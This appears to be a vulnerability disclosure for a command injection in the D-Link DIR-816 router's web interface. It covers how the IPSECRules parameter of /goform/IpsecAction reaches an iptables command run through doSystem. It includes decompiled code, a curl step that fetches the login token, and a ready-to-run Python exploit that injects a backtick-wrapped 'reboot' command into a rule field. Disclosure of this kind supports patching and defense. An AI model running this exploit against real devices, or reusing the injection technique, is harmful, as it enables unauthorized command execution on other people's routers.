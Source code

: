 ## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `/goform/getIpsecAction` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `/goform/IpsecAction`. Attackers can control `v19` by setting the `IPSECRules`. Then the program extracts the value `v44` from `v19`, splices it into the `iptables` command, and finally hands it over to `dosystem` for execution.

```
int __fastcall sub_422514(int a1)
{
  ......
  v19 = websGetVar(a1, "IPSECRules", 0);
  ......
  result = fclose(v24);
  if ( v19 )
  {
    result = (char)*v19;
    if ( *v19 )
    {
      while ( 1 )
      {
        do
        {
          NthValueSafe = getNthValueSafe(v17++, v19, 59, v39, 800);
          if ( NthValueSafe == -1 )
            return doSystem("chmod 600 /var/psk.txt");
        }
        while ( getNthValueSafe(0, v39, 44, v40, 8) == -1
             || getNthValueSafe(1, v39, 44, v41, 32) == -1
             || getNthValueSafe(2, v39, 44, v42, 32) == -1
             || !sub_4214F0(v42)
             || getNthValueSafe(3, v39, 44, v43, 8) == -1
             || getNthValueSafe(4, v39, 44, v44, 32) == -1
			 ......
             || v40[1] == 48 );
	......
        sprintf(v38, "iptables -t nat -I POSTROUTING 1 -s %s/%d -o %s -d %s/%d -j ACCEPT", v44, v27, v29, v47, v28);
        doSystem(v38);
```

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `IPSECRules`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then, run exp.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/IpsecAction'

data = {
    'tokenid': tokenid,
    'IPSECRules': {"protocol": "tcp", "jump to target": "ACCEPT", "input interface": "eth+", "out interface": "eth0", "source": "foo`reboot`bar", "destination": "192.168.1.101"}
}

r = requests.post(url, data)
```
